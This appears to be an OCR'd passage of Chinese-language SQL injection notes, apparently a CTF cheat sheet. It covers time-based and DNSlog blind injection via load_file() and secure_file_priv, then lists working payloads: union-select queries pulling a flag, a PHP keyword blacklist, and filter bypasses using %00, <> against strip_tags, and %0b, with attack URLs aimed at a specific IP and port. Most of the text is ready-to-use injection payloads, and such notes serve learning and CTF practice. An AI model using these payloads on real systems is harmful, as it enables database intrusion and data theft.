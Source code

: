 如果1=2，则会等待（2*该表中的记录数）秒，没有数据返回
如果1=1，则会立即返回所有数据

@`'` 相当于 NULL

select group_concat(ip)'' from client_ip;

# DNSlog盲注
DNSlog盲注需要用的load_file()函数，所以一般得是root权限。show variables like '%secure%';查看load_file()可以读取的磁盘。

1、当secure_file_priv为空，就可以读取磁盘的目录。

2、当secure_file_priv为G:\，就可以读取G盘的文件。

3、当secure_file_priv为null，load_file就不能加载文件。


sleep 不能填数字，可以使用pi()替代

各种payload:
```
select * from antisqli where `id`='\' and `pw`=md5(' union select 1,2,3--')
```

```
644400 union select 'z1',flag,'z3','z4' from flag order by password desc#
```

关键词union,select,from被过滤，可以考虑%00绕过

```
//过滤sql
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value)
{
	if (substr_count($id, $value) > 0)
	{
		exit('包含敏感关键字！'.$value);
	}
}

//xss过滤
$id = strip_tags($id);

$query = "SELECT * FROM temp WHERE id={$id} LIMIT 1";
payload:
http://103.238.227.13:10087/?id=2 unio%00n se%00lect hash,2 fro%00m sql3.key#
由于strip_tags 将<>替换为空，所以可以使用<>绕过：
http://103.238.227.13:10087/?id=2 unio<>n se<>lect hash,2 fro%00m sql3.key#
```

某些情况下SQL关键词被过滤掉并且被替换成空格。因此我们用“%0b”来绕过。
id=1+uni%0bon+se%0blect+1,2,3--

# Mysql大小写不敏感，绕过检测
